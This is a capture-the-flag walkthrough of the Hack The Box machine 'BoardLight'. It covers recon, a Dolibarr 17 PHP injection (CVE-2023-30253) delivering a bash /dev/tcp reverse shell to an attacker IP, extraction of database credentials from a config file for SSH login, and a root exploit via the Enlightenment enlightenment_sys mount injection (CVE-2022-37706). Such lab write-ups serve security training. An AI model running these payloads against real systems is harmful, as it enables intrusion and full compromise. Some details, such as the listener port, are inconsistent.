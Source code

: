 ## 📌 Box Info
- **OS**: [Linux](Linux)
- **Difficulty**: [Easy](Easy)
- Platform: [HTB](HTB)
- **Exploits Used**:
  - Default Dolibarr credentials 🆔  
  - PHP code injection via **CVE-2023-30253** 🔓  
  - SSH login with config‐extracted creds 🔑  
  - Local root via **CVE-2022-37706** (Enlightenment WM) 👑  

---

## 🕵️ Recon

```bash
nmap -p- --min-rate 10000 10.10.11.11 -oA boardlight
```

```bash
nmap -p 22,80 -sCV 10.10.11.11 -oA boardlight-scv
```

- **[SSH](SSH)** (22)  
- **[HTTP](HTTP)** (80) → Apache 2.4.41 on Ubuntu  
- Webroot hosts **Dolibarr v17.0.0** at `crm.board.htb`

# Directory / subdomain fuzzing
```bash
feroxbuster -u http://10.10.11.11 -x php
```

```bash
ffuf -u http://10.10.11.11 -H "Host: FUZZ.board.htb" -w /opt/SecLists/Discovery/DNS/subdomains-top1million-20000.txt -mc all
```
### → found crm.board.htb
---

## 1) 💥 Foothold as www‑data

### 1. Login to Dolibarr CRM

- Browse to http://crm.board.htb/
- **Default creds**: `admin` / `admin`

### 2. Identify PHP injection (CVE-2023-30253)

- Create a new **Website → Page**  
- Save content containing `<?Php phpinfo(); ?>`  
- “Show dynamic content” toggle must be enabled to execute

### 3. Get reverse shell

```php
<?Php system('bash -i >& /dev/tcp/10.10.14.13/6969 0>&1'); ?>
```

- Save & preview → shell lands as `www-data` on port 443  

```bash
# Upgrade shell
script /dev/null -c bash
```

---

## 2) Foothold as www‑data [CVE-2023-30253](https://github.com/nikn0laty/Exploit-for-Dolibarr-17.0.0-CVE-2023-30253)

# On our local machine
```

nc -lvnp 9001
```

# On the victim machine
```

python3 exploit.py http://crm.board.htb admin admin 10.10.14.28 9001
```

## 🐚 Pivot as larissa

### 1. Dolibarr config reveals DB creds

### /var/www/html/crm.board.htb/htdocs/conf/conf.php
```php
$dolibarr_main_db_user = 'dolibarrowner';
$dolibarr_main_db_pass = 'serverfun2$2023!!';
```

### 2. SSH as larissa

```bash
sshpass -p 'serverfun2$2023!!' ssh larissa@board.htb
```

- **User flag**:

```bash
cat ~/user.txt
# cbcdd575************************
```

---

## 🚀 Privilege Escalation to root

### 1. Enumerate SUID binaries
#### /usr/lib/.../enlightenment_sys (setuid root)

```bash
find / -perm -4000 2>/dev/null | grep enlightenment_sys
```

### 2. Exploit CVE-2022-37706

```bash
# Prepare payload
mkdir -p /tmp/net
mkdir -p "/tmp/;/tmp/infinit3i"
echo "/bin/bash" > /tmp/infinit3i
chmod +x /tmp/infinit3i
```
# Trigger command injection
```bash
/usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_sys /bin/mount -o noexec,nosuid,utf8,nodev,iocharset=utf8,utf8=0,utf8=1,uid=$(id -u), "/dev/../tmp/;/tmp/infinit3i" /tmp///net
```

---

## 🛠 Tools & References

- **SMB & SSH**: `nmap`, `sshpass`, `feroxbuster`, `ffuf`  
- **Dolibarr**: Default creds + page editor  
- **CVE-2023-30253**: PHP injection in Dolibarr → [Swascan writeup](https://swascan.com/blog-dolibarr-vulnerabilities/)  
- **CVE-2022-37706**: Enlightenment WM → [GitHub POC](https://github.com/phra/Enlightenment-CVE-2022-37706-poc)  